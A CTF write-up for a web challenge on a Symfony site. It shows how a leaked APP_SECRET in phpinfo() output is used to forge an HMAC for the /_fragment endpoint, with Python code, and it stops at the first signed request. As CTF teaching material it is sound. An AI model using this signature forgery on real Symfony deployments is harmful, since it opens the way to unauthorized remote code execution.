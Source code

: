 Title: Symphony writeup
Description: Exploit vulnerability in Symphony PHP framework.
Date: 2022-03-14
Category: CTF writeups
Tags: web

# Web
## 🎵
<img width="511" alt="grafik" src="https://user-images.githubusercontent.com/3590155/158144742-a5ee9ca5-3395-46ad-a76b-9ffcc88a336c.png">

If we inspect the website at the given link we can see that is displays the output of `phpinfo()`
<img width="946" alt="grafik" src="https://user-images.githubusercontent.com/3590155/158144934-bd4d0957-f59b-494f-bfee-577d978ff592.png">

Further down in the page we see two interesting environment variables `APP_SECRET` and `SYMFONY_DOTENV_VARS`

<img width="946" alt="grafik" src="https://user-images.githubusercontent.com/3590155/158145144-7bb1c71a-7370-4bb3-9ae8-1d01eceeb49f.png">

This indicated that the page is built with [Symphony](https://symfony.com/).

After some googling I found the following [blog post](https://www.ambionics.io/blog/symfony-secret-fragment) that describes a way to gain remote code execution in Symphony based websites.

### Testing for vulnerability
To test whether we can apply this exploit or not we open [http://challs.dvc.tf:9000/_fragment](http://challs.dvc.tf:9000/_fragment) which returns the expected HTTP 403.

<img width="623" alt="grafik" src="https://user-images.githubusercontent.com/3590155/158145976-0680863a-ce43-4aa1-b66b-fb789bac20b6.png">

### Calculate valid signature
As described in the blog post we calculate the proper HMAC with the exposed `APP_SECRET` and the URL we want to access:

``` python
# APP_SECRET exposed from phpinfo: 60b938ad59ac73568c7f2d6c282cd084
    
# calculate HMAC with secret and URL
import base64, hmac, hashlib
print(base64.b64encode(hmac.HMAC(b'60b938ad59ac73568c7f2d6c282cd084', b'http://challs.dvc.tf:9000/_fragment', hashlib.sha256).digest()))
# b'fyV4XdLD0haRSGyIJA4CMbbai6jSknB09Tk+CE2/i/k='

# add calculated HMAC to request
# http://challs.dvc.tf:9000/_fragment?_hash=fyV4XdLD0haRSGyIJA4CMbbai6jSknB09Tk+CE2/i/k=	

# url encode
# http://challs.dvc.tf:9000/_fragment?_hash=fyV4XdLD0haRSGyIJA4CMbbai6jSknB09Tk%2BCE2%2Fi%2Fk%3D
```

Now the webserver returns HTTP 404 instead of 403:
 ![grafik](https://user-images.githubusercontent.com/3590155/158146959-6556a5fe-4083-4f94-810a-1e058f1dba1a.png)
